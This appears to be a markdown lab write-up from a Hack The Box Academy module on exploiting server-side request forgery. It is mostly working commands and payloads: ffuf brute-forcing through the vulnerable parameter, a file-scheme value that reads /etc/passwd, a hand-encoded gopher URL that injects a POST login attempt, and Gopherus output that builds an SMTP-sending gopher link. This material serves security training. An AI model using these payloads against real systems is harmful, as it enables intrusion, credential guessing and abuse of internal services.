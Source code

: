 ```yaml
---
title: c-Exploit SSRF
draft: false
tags:
  - ssrf
  - ffuf
  - gopher
  - gopherus
---
```

Continuing from `b-Identify SSRF`, let's move on to exploitation part.

## Accessing Restricted Endpoint

Let's use `ffuf` to directory bruteforce for more open pages.

`Server at dataserver.htb Port 80` is used to filter out HTTP 403 responses below:

```shell-session
jadu101@htb[/htb]$ ffuf -w /opt/SecLists/Discovery/Web-Content/raft-small-words.txt -u http://172.17.0.2/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://dateserver.htb/FUZZ.php&date=2024-01-01" -fr "Server at dateserver.htb Port 80"

<SNIP>

[Status: 200, Size: 361, Words: 55, Lines: 16, Duration: 3872ms]
    * FUZZ: admin
[Status: 200, Size: 11, Words: 1, Lines: 1, Duration: 6ms]
    * FUZZ: availability
```

## LFI

We can use such command below to read `/etc/passwd` file:

`dateserver=file///etc/passwd&date=2024-01-01`

## Gopher Protocol

Let's say we found a login form as `admin.php`:

`dateserver=http://dateserver.htb/admin.php&date=2024-01-01`

We need to send a POST request with the credentials, but we cannot do so with the `http://` URL scheme.

We can use `gopher` URL scheme to send arbitrary bytes to a TCP socket.

Let's say we want to try common password such as `admin`, we can send the following POST request:

```http
POST /admin.php HTTP/1.1
Host: dateserver.htb
Content-Length: 13
Content-Type: application/x-www-form-urlencoded

adminpw=admin
```

We are going to URL encode all special characters and construct a valid gopher URL (spaces (`%20`) and newlines (`%0D%0A`) must be URL-encoded).

When converted to gopher URL scheme, above POST request will look like below:

```
gopher://dateserver.htb:80/_POST%20/admin.php%20HTTP%2F1.1%0D%0AHost:%20dateserver.htb%0D%0AContent-Length:%2013%0D%0AContent-Type:%20application/x-www-form-urlencoded%0D%0A%0D%0Aadminpw%3Dadmin
```

Now let's inject above's gopher command to our original POST request.

Since we are sending our URL within the HTTP POST parameter `dateserver`, which itself is URL-encoded, we need to URL-encode the entire URL again to ensure the correct format of the URL after the web server accepts it.

```http
POST /index.php HTTP/1.1
Host: 172.17.0.2
Content-Length: 265
Content-Type: application/x-www-form-urlencoded

dateserver=gopher%3a//dateserver.htb%3a80/_POST%2520/admin.php%2520HTTP%252F1.1%250D%250AHost%3a%2520dateserver.htb%250D%250AContent-Length%3a%252013%250D%250AContent-Type%3a%2520application/x-www-form-urlencoded%250D%250A%250D%250Aadminpw%253Dadmin&date=2024-01-01
```

Upon sending the above traffic, we can try whether the password worked out or not.

Imagine we identified SSRF vulnerability and TCP port 25 is open locally, we can do so many thing using this.

## Gopherus

Constructing gopher URLs can be tricky so we can use tool such as [Gopherus](https://github.com/tarunkant/Gopherus) to generate gopher URLs for us.

The following services are supported:

- MySQL
- PostgreSQL
- FastCGI
- Redis
- SMTP
- Zabbix
- pymemcache
- rbmemcache
- phpmemcache
- dmpmemcache

We need Python2 for running this tool.

Let's try generating a valid SMTP URL by supplying the corresponding argument. 

Tool asks us for input details about the email we intend to send. Afterward, we are given a valid gopher URL that we can use in our SSRF exploitation:

```shell-session
jadu101@htb[/htb]$ python2.7 gopherus.py --exploit smtp

  ________              .__
 /  _____/  ____ ______ |  |__   ___________ __ __  ______
/   \  ___ /  _ \\____ \|  |  \_/ __ \_  __ \  |  \/  ___/
\    \_\  (  <_> )  |_> >   Y  \  ___/|  | \/  |  /\___ \
 \______  /\____/|   __/|___|  /\___  >__|  |____//____  >
        \/       |__|        \/     \/                 \/

                author: $_SpyD3r_$


Give Details to send mail: 

Mail from :  attacker@academy.htb
Mail To :  victim@academy.htb
Subject :  HelloWorld
Message :  Hello from SSRF!

Your gopher link is ready to send Mail: 

gopher://127.0.0.1:25/_MAIL%20FROM:attacker%40academy.htb%0ARCPT%20To:victim%40academy.htb%0ADATA%0AFrom:attacker%40academy.htb%0ASubject:HelloWorld%0AMessage:Hello%20from%20SSRF%21%0A.

-----------Made-by-SpyD3r-----------
```

